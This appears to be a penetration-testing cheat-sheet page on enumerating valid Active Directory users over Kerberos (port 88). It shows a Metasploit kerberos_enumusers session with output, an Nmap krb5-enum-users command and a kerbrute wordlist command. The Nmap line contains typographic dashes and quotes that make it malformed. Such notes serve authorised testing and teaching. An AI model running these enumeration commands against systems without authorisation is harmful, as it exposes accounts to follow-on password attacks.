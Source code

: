 ```yaml
---
description: >-
  Kerberos is a computer-network authentication protocol that works on the basis
  of tickets to allow nodes communicating over a non-secure network to prove
  their identity to one another in a secure way.
---
```


# 88 - Kerberos

## User Enumeration

Enumerate valid Domain Users via Kerberos from a wholly unauthenticated perspective. It utilises the different responses returned by the service to identify users that exist within the target domain.

### Metasploit

Use `msf > use auxiliary/gather/kerberos_enumusers`

Example

```text
msf auxiliary(kerberos_enumusers) > set DOMAIN MYDOMAIN
DOMAIN => MYDOMAIN
msf auxiliary(kerberos_enumusers) > set RHOST 192.168.5.1
RHOST => 192.168.5.1
msf auxiliary(kerberos_enumusers) > set USER_FILE /job/users.txt
USER_FILE => /job/users.txt
msf auxiliary(kerberos_enumusers) > run

[*] Validating options...
[*] Using domain: MYDOMAIN...
[*] 192.168.5.1:88 - Testing User: "bob"...
[*] 192.168.5.1:88 - KDC_ERR_PREAUTH_REQUIRED - Additional
pre-authentication required
[+] 192.168.5.1:88 - User: "bob" is present
[*] 192.168.5.1:88 - Testing User: "alice"...
[*] 192.168.5.1:88 - KDC_ERR_PREAUTH_REQUIRED - Additional
pre-authentication required
[+] 192.168.5.1:88 - User: "alice" is present
[*] 192.168.5.1:88 - Testing User: "matt"...
[*] 192.168.5.1:88 - KDC_ERR_PREAUTH_REQUIRED - Additional
pre-authentication required
[+] 192.168.5.1:88 - User: "matt" is present
[*] 192.168.5.1:88 - Testing User: "guest"...
[*] 192.168.5.1:88 - KDC_ERR_CLIENT_REVOKED - Clients credentials have
been revoked
[-] 192.168.5.1:88 - User: "guest" account disabled or locked out
[*] 192.168.5.1:88 - Testing User: "admint"...
[*] 192.168.5.1:88 - KDC_ERR_C_PRINCIPAL_UNKNOWN - Client not found in
Kerberos database
[*] 192.168.5.1:88 - User: "admint" does not exist
[*] 192.168.5.1:88 - Testing User: "admin"...
[*] 192.168.5.1:88 - KDC_ERR_C_PRINCIPAL_UNKNOWN - Client not found in
Kerberos database
[*] 192.168.5.1:88 - User: "admin" does not exist
[*] 192.168.5.1:88 - Testing User: "administrator"...
[*] 192.168.5.1:88 - KDC_ERR_C_PRINCIPAL_UNKNOWN - Client not found in
Kerberos database
[*] 192.168.5.1:88 - User: "administrator" does not exist
[*] Auxiliary module execution completed
msf auxiliary(kerberos_enumusers) >
```

### Nmap

```text
Nmap –p 88 –script-args krb5-enum-users.realm=’[domain]’,userdb=[user list] [DC IP]
```

### Kerbrure

A tool to quickly bruteforce and enumerate valid Active Directory accounts through Kerberos Pre-Authentication

Link: [https://github.com/ropnop/kerbrute](https://github.com/ropnop/kerbrute)

```text
root@kali# kerbrute userenum -d EGOTISTICAL-BANK.LOCAL /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.175
```


